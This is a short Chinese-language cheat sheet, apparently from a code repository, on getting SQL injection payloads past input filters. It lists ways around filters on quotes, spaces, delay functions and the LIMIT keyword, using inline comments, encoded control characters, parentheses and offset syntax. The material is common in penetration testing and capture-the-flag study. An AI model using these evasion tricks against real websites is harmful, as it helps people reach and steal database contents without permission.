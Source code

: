 
## 过滤引号

1. 使用十六进制来代替





## 过滤空格

1. `/**/` 和 `/*!*/` 和`<>` 可以替代空格

	```sql
	se/**/lect  slee/*!*/p  information_sch<>ema  sel<>ect   slee<>p 
	```

2. 使用回车空格制表符等控制字符

	```
	%20（Space） %09（HT） %0d（\\r） %0b（VT） %0c（FF） %0d （CR） %a0（No-Break Space） %0a （New Line）
	```

3. 使用括号(子查询)左右两边可以不连接空格

	```sql
	select(user())from dual where(1=1)and(2=2)
	```

4. 浮点数后可以省略空格

	```sql
	select * from (select 8.0union select 2.0)a;
	```

	



## 过滤延时函数

如果延时函数无法使用，可以使用重复执行，消耗计算资源的形式来达到延时的效果





## 过滤 Limit 关键字

如果过滤了limit 可以使用 offset来代替，同时也绕过逗号过滤

```sql
select * from news limit 0,1
```

\# 等价于下面这条SQL语句

```sql
select * from news limit 1 offset 0
```
